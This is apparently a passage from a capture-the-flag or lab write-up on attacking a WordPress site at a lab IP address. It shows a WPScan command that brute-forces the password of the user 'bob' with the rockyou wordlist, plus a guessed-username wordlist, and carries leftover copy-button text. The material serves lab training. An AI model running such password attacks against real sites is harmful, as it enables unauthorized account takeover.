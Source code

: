 Found user: bob

Other Method (Its the same actually):

Password Attack

Use a wordlist to brute force the password for bob:
```bash
sudo docker run --rm -it -v /path/to/wordlists:/wordlists \
wpscanteam/wpscan --url http://10.10.225.159/wordpress/ -U bob -P /wordlists/rockyou.txt
```

Other Steps:

Using a Custom Wordlist with WPScan: You can also use a custom wordlist (i.e., a list of the 35 usernames you generated) with WPScan to try and find valid usernames:

First, create a text file with your list of possible usernames (e.g., usernames.txt).

Example usernames.txt:
```bash
sql
Copiar código
corporation_test
corporationtest
CorporationTest
Corporation_Test
TestCorporation
test_corporation
testcorporation
Corporation
Test
corp_test
corp
c_test
ctest
c_test_01
corp01
CorporationTest2024
test_corp123
Corp_Test_01
corporation_test_123
corporation_test1
test-corp
admin
administrator
root
user
support
manager
editor
corporation_test@domain.com
corporation_test123@domain.com
ctest@domain.com
admin@corporation.com
corp_test01
corporation_test_001
test_corp_1
```

